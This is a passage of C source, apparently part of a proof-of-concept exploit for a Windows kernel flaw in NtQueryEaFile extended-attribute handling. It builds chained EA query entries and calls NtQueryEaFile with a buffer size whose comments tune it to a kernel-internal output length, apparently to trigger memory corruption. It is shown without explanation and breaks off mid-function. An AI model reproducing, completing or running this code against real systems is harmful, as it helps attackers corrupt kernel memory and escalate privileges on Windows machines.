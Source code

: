 ```c
    CHAR EaName[1];
} FILE_FULL_EA_INFORMATION, * PFILE_FULL_EA_INFORMATION;

typedef struct _FILE_GET_EA_INFORMATION {
    ULONG                   NextEntryOffset;
    BYTE                    EaNameLength;
    CHAR                    EaName[1];
} FILE_GET_EA_INFORMATION, * PFILE_GET_EA_INFORMATION;

HANDLE hFile = NULL;


void query_extended_attributes(NtQueryEaFile_t NtQueryEaFile) {
    //    ULONG queryBufferSize = 0x300 - 0xb3 + 1;     // this is the value of the out_buf_len used within the kernel code
    ULONG queryBufferSize = 0x143; // 0x200 - 0xdb + 0x34 + 0x10 + 1 - (6*3) - 0x1b - 6  + 8 + 4;     // this is the value of the out_buf_len used within the kernel code   -> 0x126
    printf("[*] queryBufferSize: %p\n", queryBufferSize);
    PFILE_FULL_EA_INFORMATION queryBuffer = (PFILE_FULL_EA_INFORMATION)malloc(queryBufferSize);
    if (!queryBuffer) {
        printf("Memory allocation error\n");
        return;
    }

    ULONG eaBufferSize = 9 + EA_NAME_LENGTH;

    PFILE_GET_EA_INFORMATION file_get_ea_inf1 = (PFILE_GET_EA_INFORMATION)malloc(eaBufferSize);
    PFILE_GET_EA_INFORMATION file_get_ea_inf2 = (PFILE_GET_EA_INFORMATION)malloc(eaBufferSize);
    PFILE_GET_EA_INFORMATION file_get_ea_inf3 = (PFILE_GET_EA_INFORMATION)malloc(eaBufferSize);


    file_get_ea_inf1->NextEntryOffset = eaBufferSize;
    file_get_ea_inf1->EaNameLength = EA_NAME_LENGTH;

    file_get_ea_inf2->NextEntryOffset = eaBufferSize;
    file_get_ea_inf2->EaNameLength = EA_NAME_LENGTH2;

    file_get_ea_inf3->NextEntryOffset = 0;
    file_get_ea_inf3->EaNameLength = EA_NAME_LENGTH3;


    memcpy(file_get_ea_inf1->EaName, EA_NAME, EA_NAME_LENGTH + 1);
    memcpy(file_get_ea_inf2->EaName, EA_NAME2, EA_NAME_LENGTH2 + 1);
    memcpy(file_get_ea_inf3->EaName, EA_NAME3, EA_NAME_LENGTH3 + 1);

    char* buf = (char*)malloc(eaBufferSize * 3);
    memcpy(buf, file_get_ea_inf1, eaBufferSize);
    memcpy(buf + eaBufferSize, file_get_ea_inf2, eaBufferSize);
    memcpy(buf + (eaBufferSize*2), file_get_ea_inf3, eaBufferSize);

    ULONG eaIndex = 0;

    /* END TESTS */

    IO_STATUS_BLOCK ioStatus;
    NTSTATUS status = NtQueryEaFile(hFile, &ioStatus, queryBuffer, queryBufferSize, FALSE, buf, eaBufferSize*3, &eaIndex, TRUE);
    //NTSTATUS status = NtQueryEaFile(hFile, &ioStatus, queryBuffer, queryBufferSize, FALSE, 0, 0, 0, TRUE);

    if (status != STATUS_SUCCESS) {
        printf("NtQueryEaFile error: %08x\n", status);
        free(queryBuffer);
```